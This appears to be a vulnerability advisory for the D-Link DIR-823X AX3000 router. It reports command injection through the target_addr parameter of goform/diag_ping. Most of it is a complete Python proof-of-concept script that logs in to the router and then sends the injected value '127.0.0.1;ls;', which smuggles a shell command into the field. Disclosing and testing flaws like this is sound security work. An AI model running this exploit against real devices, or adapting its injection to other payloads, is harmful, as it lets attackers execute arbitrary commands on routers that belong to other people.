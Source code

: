 
## Basic Information

Vulnerability Vendor: D-Link Corporation

Vulnerability level: High risk

Vendor Website: https://www.dlink.com.cn

Affected Object Type: Network Device

Affected Product: D-Link DIR-823X AX3000

Affected Product Versions: <=250416

Product Component Vulnerability: No
## 1. Vulnerability Overview

The D-Link DIR-823x is a wireless router product released by D-Link Corporation. The D-Link DIR-823x contains a command execution vulnerability. This vulnerability stems from the file /usr/sbin/goahead failing to adequately validate input parameters when processing environment variables. An attacker could exploit this vulnerability by constructing malicious requests to execute arbitrary commands on the system.

## 2. Details of the vulnerability

![029fa1896ba91c04155b8126e3492ae7.png](https://s2.loli.net/2025/09/03/ML89ndz4UmEQxwi.png)
At the `goform/diag_ping` location, the `target_addr` parameter lacks validation checks, introducing a logical error. Attackers can set malicious strings to perform injection attacks.

![daa534adb9b9dc5288b162fb17f6be01.png](https://s2.loli.net/2025/09/03/vkFbzilwURNCmLq.png)



## Poc
```python
import requests
import logging
import argparse
import re
import hmac
import hashlib


logging.basicConfig(level=logging.DEBUG)


def extract_cookies_from_response(response):
    cookies = response.headers.get('Set-Cookie', '')
    sessionid = re.search(r'sessionid=([^;]+)', cookies)
    token = re.search(r'token=([^;]+)', cookies)
    sessionid = sessionid.group(1) if sessionid else None
    token = token.group(1) if token else None
    return sessionid, token

def send_get_login_page(session, host_ip):
    url = f"http://{host_ip}/login.html"

    headers = {
        "Host": host_ip,
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",
        "Accept-Language": "en-US,en;q=0.5",
        "Accept-Encoding": "gzip, deflate",
        "Connection": "close",
        "Upgrade-Insecure-Requests": "1"
    }

    response = session.get(url, headers=headers)
    
    if response.status_code == 200:
        sessionid, token = extract_cookies_from_response(response)
        return sessionid, token
    else:
        logging.error("Failed to get login page.")
        logging.error(f"Status code: {response.status_code}")
        logging.error(f"Response: {response.text}")
        return None, None

def hash_password(password, token):
    hashed = hmac.new(token.encode(), password.encode(), hashlib.sha256).hexdigest()
    return hashed

def send_login_request(session, host_ip, username, hashed_password, sessionid, token):
    url = f"http://{host_ip}/goform/login"
    
    headers = {
        "Host": host_ip,
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0",
        "Accept": "*/*",
        "Accept-Language": "en-US,en;q=0.5",
        "Accept-Encoding": "gzip, deflate",
        "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
        "X-Requested-With": "XMLHttpRequest",
        "Origin": f"http://{host_ip}",
        "Connection": "close",
        # "Referer": f"http://{host_ip}/login.html",
        "Cookie": f"sessionid={sessionid}; token={token}"
    }
    
    payload = {
        "username": username,
        "password": hashed_password,
        "token": token
    }
    
    response = session.post(url, headers=headers, data=payload)
    
    return response

def send_diag_traceroute_request(session, host_ip, sessionid, token):
    url = f"http://{host_ip}/goform/diag_ping"
    headers = {
        "Host": host_ip,
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0",
        "Accept": "*/*",
        "Accept-Language": "en-US,en;q=0.5",
        "Accept-Encoding": "gzip, deflate",
        "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
        "X-Requested-With": "XMLHttpRequest",
        "Origin": f"http://{host_ip}",
        "Connection": "close",
        # "Referer": f"http://{host_ip}/login.html",
        "Cookie": f"sessionid={sessionid}; token={token}"
    }
    
    payload = {
        "target_addr": "127.0.0.1;ls;",
        "token": token
    }

    

    response = session.post(url, headers=headers, data=payload)
    
    return response

def main():
    session = requests.session()

    parser = argparse.ArgumentParser(description='HTTP POST Request Example.')
    parser.add_argument('-H', '--host', metavar='host', default='192.168.1.1', help='Host IP address.')
    parser.add_argument('-u', '--username', metavar='Username', required=True, help='Login username.')
    parser.add_argument('-p', '--password', metavar='Password', required=True, help='Login password.')

    args = parser.parse_args()

    logging.info(f'Host IP: {args.host}')

    # Get login page
    sessionid, token = send_get_login_page(session, args.host)
    if sessionid and token:
        logging.info(f"GET login page request sent successfully. sessionid={sessionid}, token={token}")
        
        # Hash the password
        hashed_password = hash_password(args.password, token)
        
        # Send login request
        response = send_login_request(session, args.host, args.username, hashed_password, sessionid, token)
        if response.status_code == 200:
            logging.info("Login request sent successfully.")
            logging.debug(f"Response: {response.text}")
            
            # Extract updated sessionid and token from login response
            sessionid, token = extract_cookies_from_response(response)
            
            # Send LAN settings request
            response = send_diag_traceroute_request(session, args.host, sessionid, token)
            if response.status_code == 200:
                logging.info("LAN settings request sent successfully.")
                logging.debug(f"Response: {response.text}")
            else:
                logging.error("Failed to send LAN settings request.")
                logging.error(f"Status code: {response.status_code}")
                logging.error(f"Response: {response.text}")
        else:
            logging.error("Failed to send login request.")
            logging.error(f"Status code: {response.status_code}")
            logging.error(f"Response: {response.text}")
    else:
        logging.error("Failed to retrieve sessionid and token from login page.")

if __name__ == "__main__":
    main()
```
